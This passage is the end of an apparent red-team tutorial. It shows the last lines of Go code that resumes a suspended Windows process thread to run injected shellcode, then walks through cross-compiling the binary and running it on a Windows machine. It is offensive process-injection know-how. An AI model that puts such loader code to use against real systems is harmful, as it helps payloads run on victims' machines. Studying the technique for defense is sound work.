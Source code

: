 ```go
    0,
  )

/*
DWORD ResumeThread(
  [in] HANDLE hThread
);
*/

  fmt.Println("[*] Calling ResumeThread...") // finally resume thread
  ResumeThread.Call(uintptr(pi.Thread))

  // shellcode should have been executed at this point
  fmt.Println("[+] Shellcode executed!")
}
```

# Demo

Let's compile the code

```sh
GOARCH=amd64 GOOS=windows go build main.go
```

<img src="https://raw.githubusercontent.com/D3Ext/d3ext.github.io/main/images/redteam/practice13/compile.png" alt="pic">

Now we transfer the executable to a Windows x64 machine

<img src="https://raw.githubusercontent.com/D3Ext/d3ext.github.io/main/images/redteam/practice13/demo-1.png" alt="pic">

And finally we execute it
